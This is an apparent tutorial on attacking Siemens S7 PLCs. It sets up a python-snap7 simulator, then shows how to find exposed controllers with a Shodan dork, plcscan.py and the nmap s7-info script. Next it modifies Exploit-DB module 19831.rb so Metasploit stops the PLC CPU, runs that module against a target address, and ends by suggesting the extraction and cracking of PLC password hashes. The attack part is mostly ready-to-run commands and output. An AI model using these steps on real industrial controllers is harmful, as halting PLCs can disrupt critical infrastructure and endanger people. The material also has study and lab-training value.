 ## S7comm

![S7Comm Layers](docs/img/s7comm_layer.png)

Wireshark wiki S7comm: https://wiki.wireshark.org/S7comm

## Siemens S7 PLC simulator

If you wanna play around, you can install an S7 simulator written on python:

1. Download *snap7-full-x.x.x.zip*: https://osdn.net/projects/sfnet_snap7/downloads/1.4.0/snap7-full-1.4.0.zip/

2. Unzip with name snap7-full in ~/

3. Execute the following commands

```
$ cd ~/snap7-full
$ sudo apt-get install python-pip
$ sudo -H pip install python-snap7
$ cd build/unix
$ make -f x86_64_linux.mk
$ cd ../bin/x86_64-linux/
$ sudo cp libsnap7.so /usr/lib
$ sudo ldconfig
$ sudo python
>>> import snap7
>>> s7server = snap7.server.Server()
>>> s7server.create()
>>> s7server.start()
>>> s7server.get_status()
('SrvRunning', 'S7CpuStatusRun', 0)
>>>
```

Now the simulator is ready!

PS: I use Ubuntu 16 on a VM.

## Scan

Shodan dork: *port:102*

Scan and identify: *plcscan.py*:

```
#Example usage

plcscan.py 192.168.0.1

plcscan.py --timeout 2 192.168.0.1:102 10.0.0.0/24

plcscan.py --hosts-list hosts.txt
```

Using nMap with the script **s7-info.nse**: https://nmap.org/nsedoc/scripts/s7-info.html

```
nmap --script s7-info.nse -p 102 10.0.0.1/24
```

## Exploits

There should be also some metasploit modules:

```
$ searchsploit Siemens Simatic S7
```
Add exploit *19831.rb* to metasploit:

Metasploit comes with a ton of exploits already included; however, this Siemens exploit needs to be added. As the exploit was written with the usage of Metasploit in mind, this is a simple task. To add the module, run the following commands on the Kali Linux VM:

To adjust for using a newer Metasploit framework, we need to change the same code in the 19831.rb file. In the file take a look on the line 39:

```OptInt.new('MODE', [false, 'Set true to put the CPU back into RUN mode.',false]),```

Change the preceding to this:

```OptInt.new('MODE', [false, 'Mode 1 to Stop CPU. Set Mode to 2 to put the CPU back into RUN mode.',1]),```

Now copy module to msf user directory:

```
$ cd ~/.msf4/modules/
~/.msf4/modules $ mkdir -p auxiliary/hardware/scada
~/.msf4/modules $ cd auxiliary/hardware/scada
~/.msf4/modules/auxiliary/hardware/scada $ cp /usr/share/exploitdb/platforms/hardware/remote/19831.rb 19831.rb
~/.msf4/modules/auxiliary/hardware/scada $ service postgresql start
~/.msf4/modules/auxiliary/hardware/scada $ msfconsole
```

Now go with metasploit:

```
msf > reload_all
msf > search siemens
msf > use auxiliary/hardware/scada/19831
msf auxiliary(19831) > show options
msf auxiliary(19831) > set RHOSTS 172.16.252.134
RHOSTS => 172.16.252.134
msf auxiliary(19831) > exploit
[+] 172.16.252.134 PLC is running, iso-tsap port is open.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
On newer Siemens devices, they added a password for certain actions! Use *s7_password_hashes_extractor.py* to extract hash and crack it online!

## Manual exploitation



### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * **Cybersecurity for Industrial Control Systems: SCADA, DCS, PLC, HMI, and SIS** by *T. Macaulay, B. L. Singer*
  * https://media.blackhat.com/bh-us-11/Beresford/BH_US11_Beresford_S7_PLCs_WP.pdf
  * Protocol description: http://snap7.sourceforge.net/siemens_comm.html

Good to read:

  * https://pdfs.semanticscholar.org/9a1d/c724e7f8060907c3396ba6d6e416b56d66dd.pdf